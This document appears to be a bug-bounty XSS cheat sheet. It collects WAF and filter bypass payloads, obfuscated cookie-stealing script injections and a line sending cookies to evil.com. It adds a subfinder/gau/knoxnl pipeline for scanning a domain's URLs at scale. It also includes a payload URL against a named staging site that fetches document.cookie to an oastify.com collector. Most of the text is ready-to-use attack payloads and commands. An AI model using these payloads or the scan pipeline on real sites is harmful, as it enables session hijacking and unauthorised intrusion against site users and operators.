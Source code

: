 
---

### **XSS (Cross-Site Scripting) Resources**

#### **1. WAF Bypass & XSS Cheat Sheets**
- **Awesome WAF**:
  ```bash
  https://github.com/0xInfection/Awesome-WAF
  ```
- **Ghetto Bypass**:
  ```bash
  https://d3adend.org/xss/ghettoBypass
  ```
- **Browser's XSS Filter Bypass Cheat Sheet**:
  ```bash
  https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet
  ```
- **Angular Bypass**:
  ```bash
  https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet#angularの利用
  ```
- **Waf Bypass**:
  ```bash
  '></a><input%20type=hidden%20oncontentvisibilityautostatechange="function%20bola(value)%20%7BReflect.apply(window.alert,%20null,%20[value]);%7D;with%20(document)%20%7BfinalCook=cookie;%7D;bola(finalCook)";%20style=content-visibility:auto><a%20'
  ```



#### **2. XSS Techniques**
- **Bypass Cookies blocked**
  ```bash
  </title><svg/onload="az3m=%27alert(document.co%27; az3m1=%27okie)%27;Az3mEasilyBypassXSS=az3m.concat(az3m1);eval(Az3mEasilyBypassXSS);">
  ```
- **HTTP Only Bypass**:
  ```bash
  location.href = "evil.com?c='escape(document.cookie)'"
  ```
- **Meta Refresh**:
  ```bash
  <meta http-equiv="refresh" content="0; url=http://example.com/">
  ```
- **Method Spoofing**:
  ```bash
  POST /endpoint
  Host: example.com
  _method=POST&data[user][username]=xsspayload
  ```
- **SameSite Bypass**:
  ```bash
  https://hazanasec.github.io/2023-07-30-Samesite-bypass-method-override.md/
  ```
- **Script Source Bypass**:
  ```bash
  <script src=//14.rs>
  <script src=//ł.rip>
  ```
- **XSS Payload**:
  ```bash
  "><img/src='x'/onerror="parent['ale'+'rt'](parent['doc'+'ument']['cookie']);">
  ```
- **Using `eval`**:
  ```bash
  Use eval, but always make sure where to use + and where to use %2b.
  ```

#### **3. CSP (Content Security Policy)**
- **CSP Bypass**:
  ```bash
  https://www.notion.so/CSP-10615e0fe55e8064a661dcfb7c0ee992?pvs=21
  https://cspbypass.com/
  ```

#### **4. Additional Resources**
- **Medium Articles**:
  ```bash
  https://medium.com/@DrakenKun/how-i-was-able-to-find-4-cross-site-scripting-xss-on-vulnerability-disclosure-program-e2f39199ae16
  ```
- **Twitter Threads**:
  ```bash
  https://twitter.com/Botami143/status/1741363525568823385?t=Mh-SqOmunyxQyK7UhoQASQ&s=19
  ```
- **Hahwul's XSS Guide**:
  ```bash
  https://www.hahwul.com/cullinan/xss/?fbclid=IwAR1HX06q3yYwG73REvITzA7mshM0egPaGR0PzqbnzW25HE1h4XdPVrA1ZNY
  ```
- **WAF Bypass XSS Payloads**:
  ```bash
  https://github.com/gprime31/WAF-bypass-xss-payloads/tree/master?fbclid=IwAR3oBisE0veAu87f77xZVubYTTLa7k0bWKo7HTMprPgxfqm_-P2hKDAu2do
  ```
- **OWASP XSS Filter Evasion Cheat Sheet**:
  ```bash
  https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
  ```
- **Zapstiko's XSS Payloads**:
  ```bash
  https://github.com/zapstiko/wordlists/blob/main/xss_payloads
  ```

#### **5. Advanced XSS Payloads**
- **Details Tag Exploit**:
  ```bash
  <dETAILS%0aopen%0aonToGgle%0a%3d%0aa%3dprompt,a(origin)%20x>
  ```

---

### **How to Use This Information**
1. **WAF Bypass**:
   - Use the provided cheat sheets and payloads to bypass Web Application Firewalls (WAFs).

2. **XSS Techniques**:
   - Experiment with different XSS payloads and techniques to find vulnerabilities in web applications.

3. **CSP Bypass**:
   - Study CSP bypass techniques to understand how to exploit Content Security Policy misconfigurations.

4. **Additional Resources**:
   - Refer to the provided links for more in-depth guides and examples of XSS exploitation.

---

```bash
Find subdomains.
subfinder -d domain -all | httpx -o subs1
subdominator -d domain  | httpx -o subs2

Merge all subs in one file
cat sub1 subs2|anew subs

Find history.
cat subs | wayback |anew xss-wayback
katana -list subs -o xss-katana
cat subs | gau --subs -o xss-gau

Sort all history in one file.
cat xss-wayback xss-katana xss-gau |anew xss.txt

Delete unnecessary extensions.
cat xss.txt |sort -u | grep "=" | egrep -iv ".(css|woff|woff2|txt|js|m4r|m4p|m4b|ipa|asa|pkg|crash|asf|asx|wax|wmv|wmx|avi|bmp|class|divx|doc|docx|exe|gif|gz|gzip|ico|jpg|jpeg|jpe|webp|json|mdb|mid|midi|mov|qt|mp3|m4a|mp4|m4v|mpeg|mpg|mpe|webm|mpp|_otf|odb|odc|odf|odg|odp|ods|odt|ogg|pdf|png|pot|pps|ppt|pptx|ra|ram|svg|svgz|swf|tar|tif|tiff|_ttf|wav|wma|wri|xla|xls|xlsx|xlt|xlw|zip)" | uro | httpx | anew xss

Run knoxnl against xss with both GET,POST methods.
knoxnl -i xss -X BOTH -s -o xssoutput.txt
```

```
https://app.staging.makeswift.com/login?next=javascript%3Afetch(%27https%3A%2F%2Flrg1wp93ejpjd16ko0rfja8zqqwhk88x.oastify.com%2Fsteal%3Fcookie%3D%27%2BencodeURIComponent(document.cookie))
![image](https://github.com/user-attachments/assets/d9588aa4-44c3-4ae6-ae9c-07731ae84d9d)

```


- https://www.hahwul.com/cullinan/xss/?fbclid=IwAR1HX06q3yYwG73REvITzA7mshM0egPaGR0PzqbnzW25HE1h4XdPVrA1ZNY
